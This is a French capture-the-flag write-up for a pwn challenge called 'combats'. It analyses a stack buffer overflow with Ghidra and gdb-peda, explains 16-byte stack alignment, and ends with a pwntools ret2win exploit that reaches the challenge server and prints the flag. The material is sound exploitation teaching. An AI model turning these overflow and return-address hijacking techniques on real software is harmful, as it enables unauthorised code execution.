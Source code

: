 # WriteUp

## Analyse de l'ELF

```bash
$ checksec combats
[*] '/tmp/combats'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

En décompilant via Ghidra, nous voyons 2 fonctions intéressantes, vulnerable et guerrier :

![Liste des fonctions](combats1.png)

La fonction main() ne semble pas appeler guerrier() :

![Décompilation de main()](combats2.png)

La fonction guerrier() est intéressante puisqu'elle nous permet d'exécuter un "cat flag.txt" :

![Décompilation de guerrier()](combats3.png)

La fonction vulnerable() déclare une variable de 128 octets mais semble en stocker  bien plus...

![Décompilation de vulnerable()](combats4.png)

Regardons cela dans gdb en insérant une large entrée :

```bash
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ r
Starting program: /tmp/combats
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Ceux qui osent défier l'esprit du combat doivent être prêts à tout risquer. Le moindre faux mouvement peut vous conduire à la défaite. Préparez-vous, car le combat sera rude.
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x100
RBX: 0x0
RCX: 0x7ffff7ea07e2 (<__GI___libc_read+18>:     cmp    rax,0xfffffffffffff000)
RDX: 0x100
RSI: 0x7fffffffdbf0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
RDI: 0x0
RBP: 0x6c41415041416b41 ('AkAAPAAl')
RSP: 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
RIP: 0x401240 (<vulnerable+67>: ret)
R8 : 0xb8
R9 : 0x7ffff7fc9040 (<_dl_fini>:        endbr64)
R10: 0x7ffff7d925e8 --> 0xf001200001a64
R11: 0x246
R12: 0x7fffffffdda8 --> 0x7fffffffe02d ("/tmp/combats")
R13: 0x401241 (<main>:  push   rbp)
R14: 0x403df0 --> 0x401150 (endbr64)
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10207 (CARRY PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401239 <vulnerable+60>:    call   0x401070 <read@plt>
   0x40123e <vulnerable+65>:    nop
   0x40123f <vulnerable+66>:    leave
=> 0x401240 <vulnerable+67>:    ret
   0x401241 <main>:     push   rbp
   0x401242 <main+1>:   mov    rbp,rsp
   0x401245 <main+4>:   sub    rsp,0x10
   0x401249 <main+8>:   mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0008| 0x7fffffffdc80 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0016| 0x7fffffffdc88 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0024| 0x7fffffffdc90 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0032| 0x7fffffffdc98 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0040| 0x7fffffffdca0 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0048| 0x7fffffffdca8 ("AAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0056| 0x7fffffffdcb0 ("ZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401240 in vulnerable ()
```

Nous voyons que nous parvenons à écrire sur RSP à l'offset 136, cela signifie que nous contrôlons l'adresse de la fonction suivant l'exécution de la fonction vulnerable() (après son ret). Voyons à quel offset :

```bash
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 128
Registers point to pattern buffer:
[RSI] --> offset 0 - size ~203
[RSP] --> offset 136 - size ~194
[...]
```

Nous devons aussi vérifier si la stack est bien alignée, en effet, si la valeur de rsp n'est pas divisible par 0x10 (16 en hexadécimal), la suite de l'exécution ne se passera pas comme nous le souhaiterions en fonction de l'adresse de la fonction qui se retrouvera au sommet de la pile.

<details>
  <summary>Pourquoi aligner la stack ?</summary>

Lorsque nous exploitons une vulnérabilité de buffer overflow pour rediriger l'exécution vers une fonction spécifique comme guerrier(), il est crucial de prendre en compte l'alignement de la pile (stack) pour assurer le bon fonctionnement du programme.

Dans l'architecture x86_64, la convention d'appel (ABI - Application Binary Interface) stipule que le pointeur de pile ($rsp) doit être aligné sur 16 octets avant l'appel d'une fonction. Cet alignement est nécessaire car de nombreuses instructions SSE et certaines fonctions de la bibliothèque standard C supposent que la pile est correctement alignée. Si cet alignement n'est pas respecté, cela peut entraîner des comportements indéfinis, des plantages ou des erreurs d'exécution.

Dans notre cas, en écrasant $rsp avec l'adresse de la fonction guerrier(), nous redirigeons effectivement le flux d'exécution vers cette fonction. Cependant, le buffer overflow et l'écrasement du pointeur de pile peuvent désaligner la pile. Cela signifie que lorsque guerrier() est appelée, la pile n'est plus alignée sur 16 octets comme l'exige l'ABI.

Lorsque guerrier() exécute puts("Félicitations, jeune guerrier, votre bravoure mérite les honneurs..."), cette fonction de la bibliothèque standard s'attend à ce que la pile soit correctement alignée. Si ce n'est pas le cas, elle peut fonctionner partiellement (afficher "victoire") mais rencontrer des problèmes lors d'appels internes ou de l'exécution d'instructions SSE, ce qui peut entraîner un arrêt du programme ou sa sortie prématurée après le puts().

Pour résoudre ce problème d'alignement, il est nécessaire de :

* Ajuster l'alignement de la pile : Modifier notre payload pour ajouter du remplissage (padding) afin de réaligner $rsp sur un multiple de 16 octets avant l'appel à guerrier(). Cela garantit que toutes les fonctions appelées au sein de guerrier() trouvent la pile dans l'état attendu.
* Utiliser une autre méthode d'exploitation : Comme vous l'avez mentionné, injecter directement l'adresse des instructions qui préparent les arguments pour system() et effectuer l'appel peut contourner le problème d'alignement, car nous contrôlons précisément l'état de la pile et pouvons nous assurer qu'elle est correctement alignée.

En résumé, le souci d'alignement de la pile provient du fait que les conventions d'appel en x86_64 exigent un alignement spécifique pour garantir le bon fonctionnement des fonctions. Ne pas respecter cet alignement lors de l'exploitation d'un buffer overflow peut conduire à des comportements imprévus ou à des plantages, ce qui nécessite des ajustements spécifiques dans notre méthode d'exploitation pour assurer la réussite de l'attaque.

</details>


```bash
gdb-peda$ p/x $rsp
$1 = 0x7fffffffdc78
```

0x7fffffffdc78 % 0x10 = 0x8, nous devrons donc aligner la stack avant d'appeler l'adresse d'une fonction, au hasard guerrier() 😅. Pour cela, il suffit d'exécuter une instruction ret avant de spécifier l'adresse de guerrier() dans le payload.

## Récupération d'un gadget ret

La pile étant non exécutable (NX) et l'ASLR étant sûrement activée, nous devons trouver un gadget ret dans la section statique du programme.

```bash
❯ ROPgadget --binary combats | grep ret
[...]
0x000000000040101a : ret
[...]
```

## Récupération de l'adresse de la fonction "guerrier"

```bash
❯ readelf -s combats | grep guerrier
    30: 00000000004011d8    37 FUNC    GLOBAL DEFAULT   14 guerrier
```

Il suffit donc de remplir le buffer avec 136 octets de n'importe quoi, puis l'adresse vers ret (0x40101a) pour aligner la pile puis l'adresse vers guerrier() (0x4011d8) pour qu'elle soit appelée.

## Exploit

```python
#!/usr/bin/env python3

import sys
from pwn import *

context(arch="amd64", os="linux", endian="little", word_size=64)

p = remote("challenges.hackagou.nc", 5003)

guerrier_addr = 0x4011d8
ret_addr = 0x40101a

payload = b'A' * 136
payload += p64(ret_addr)
payload += p64(guerrier_addr)

p.readuntil(b'> ')
p.sendline(payload)
p.interactive()
```
```bash
$ python pwn-combats.py
[+] Opening connection to challenges.hackagou.nc on port 5003: Done
[*] Switching to interactive mode
Félicitations, jeune guerrier, votre bravoure mérite les honneurs...
OPENNC{L3_GU3RR13r_c0mb47_4v3C_H0nN3uR.}
[*] Got EOF while reading in interactive
```
